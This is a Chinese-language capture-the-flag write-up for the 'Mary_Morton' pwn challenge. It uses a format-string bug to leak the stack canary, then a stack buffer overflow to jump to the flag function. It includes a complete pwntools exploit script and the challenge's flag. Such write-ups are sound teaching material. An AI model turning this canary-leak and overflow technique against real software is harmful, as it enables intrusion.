


# Mary_Morton

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=64a2a62e-adfc-4d89-b5d4-c00368eb6fe7_2)

算是新手友好的题目了，入门用刚刚好。

运行附件，发现真就把漏洞摆在你面前：格式化字符串和栈溢出。

- Welcome to the battle ! <br>[Great Fairy] level pwned 
<br>Select your weapon 
<br>1. Stack Bufferoverflow Bug 
<br>2. Format String Bug 
<br>3. Exit the battle 

checksec发现是64位且有canary，相比于普通栈溢出算进阶题。

-   Arch:         amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

ghidra看程序逻辑。main函数没啥可看的，就是简单的判断输入执行指定函数的逻辑。栈溢出函数第17行确实有很明显的栈溢出漏洞。



格式化字符串函数在第18行有很明显的格式化字符串漏洞。


有一个flag函数。



- ### read
- > 用于文件描述符对应的文件中读取数据。
- 函数原型：int read(int handle,void *buf,int len);
- 参数：
- > int handle 为要读取的文件。从command line获取数据时，为0
- > void *buf  为要将读取的内容保存的缓冲区
- > int len    读取文件的长度
- 返回值：实际读取的字节数

先看StackBufferoverflow。第17行从命令读取0x100长度的数据，放到明显就没有这么长的local_98中。可以溢出然后覆盖返回地址为Win函数。但是中间有个canary，它们的关系大概是下面这样的

        
        高地址   |                 |
                +-----------------+
                | args            |
                +-----------------+
                | return address  |
                +-----------------+
        rbp =>  | old ebp         |
                +-----------------+
      rbp-8 =>  | canary value    |
                +-----------------+
                | local variables |
                |                 |
        低地址

所以想要从局部变量溢出到返回地址就必须要经过canary。从StackBufferoverflow函数中可以看到函数返回前先对canary做了检查，如果值不对就直接中断程序。有办法可以爆破canary值，但这里有更简单的办法。

FormatString第18行没有对用户的输入进行检查就直接打印了，典型的格式化字符串。当用户输入格式化类型字符串时，程序会往栈上找相应数量的数据来填充格式化字符串，从而内存泄漏。那么我们就可以在这里把canary泄漏后再到StackBufferoverflow覆盖返回地址，因为canary在程序运行后值就不会变了，这个函数的canary值和另一个函数的canary值是一样的。

现在就是要找canary相对于格式化字符串的偏移。截图里面可以看到local_98在stack-0x98,canary在stack-0x10，所以两者的偏移位数就是0x98-0x10=0x88。64位系统8位算一个字节，所以还要除以8，也就是0x88/8=0x11,10进制就是17。这样还不够，仅仅只是local_98相对于canary的偏移，我们还要加上格式化字符串本身相对于我们的输入的偏移(不太确定是不是这个偏移）。这个也非常好算，运行程序到格式化字符串漏洞那里，输入一个AAAAAAAA（64位八个，32位4个）和一堆%p（获取栈上内存），最后观察AAAAAAAA在哪里出现。


从0x7ffdaaa90f80开始数起，到0x4141414141414141正好6位。(nil)也算。那真正的偏移就是17+6=23。

- ### Tips
- > 利用 %offset\$x或%offset\$p 来获取指定偏移的值，利用 %offset$s 来获取指定参数对应地址的内容。\$符号似乎是个占位符（我不太确定，没学过c）

现在就能写exp了。

```python
from pwn import *
proc=remote("61.147.171.105",64850)
proc.sendlineafter("3. Exit the battle",'2')
str_payload='%23$p'
proc.sendline(str_payload)
proc.recvuntil('0x')
canary=int(proc.recv(16),16)
proc.sendlineafter("3. Exit the battle",'1')
payload=b'a'*0x88+p64(canary)+b'b'*8+p64(0x004008da)
proc.sendline(payload)
proc.interactive()
```

payload=b'a'*0x88+p64(canary)+b'b'*8+p64(0x004008da) 对应这么一个顺序：0x88个垃圾字节+之前得到的canary+在这里没啥用的rbp+目标返回地址。

- ### Flag
- > cyberpeace{89a36bb3350efe7306275c9ca014e2cd}
